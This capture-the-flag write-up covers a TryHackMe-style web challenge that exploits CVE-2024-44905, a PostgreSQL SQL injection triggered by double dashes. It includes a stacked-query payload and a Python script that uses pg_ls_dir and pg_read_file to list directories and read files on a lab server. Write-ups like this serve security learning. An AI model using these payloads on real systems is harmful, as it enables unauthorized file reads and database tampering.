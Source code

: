 ```yaml
---
title: "Mechacore Inventory"
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 120
solves: -1
flag: THM{REDACTED}
---
```

> Virelia bought another Mechacore piece of junk. It's now an inventory system for their manufactured parts. Why a water company needs to create robot parts escapes me completely. Maybe we can access the server and clear our doubts.

---

This is `CVE-2024-44905` you can read more about it [Double Dash, Double Trouble: A Subtle SQL Injection Flaw](https://www.sonarsource.com/blog/double-dash-double-trouble-a-subtle-sql-injection-flaw/)

The vulnerable SQL query is as follows:

`item.creation_timestamp >= cast(extract(epoch from current_timestamp) as integer)-? or item.name=?`

Because there is a `-` in the query, it is possible to inject a negative number to comment the query after.

```sql
item.creation_timestamp >= cast(extract(epoch from current_timestamp) as integer)-- or item.name=foo
); INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) 
VALUES ($$TEST$$,$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1);--
```

Because single quotes are not allowed, we can use `$$` to delimit the string.

```py
import requests

# url = "http://10.10.67.220/?lastnseconds=-1&name=foo\x0a)%3B INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) \x0a VALUES (pg_ls_dir($$/home/ubuntu/$$),$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1)%3B--"
url = "http://10.10.67.220/?lastnseconds=-1&name=foo\x0a)%3B INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) \x0a VALUES (pg_read_file($$/home/ubuntu/flag-12376287432546781647235.txt$$, 0, 10000),$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1)%3B--"

response = requests.get(url)
if response.status_code == 200:
    print("Request was successful.")
else:
    print(f"Request failed with status code: {response.status_code}")

print("Response content:", response.text)
```
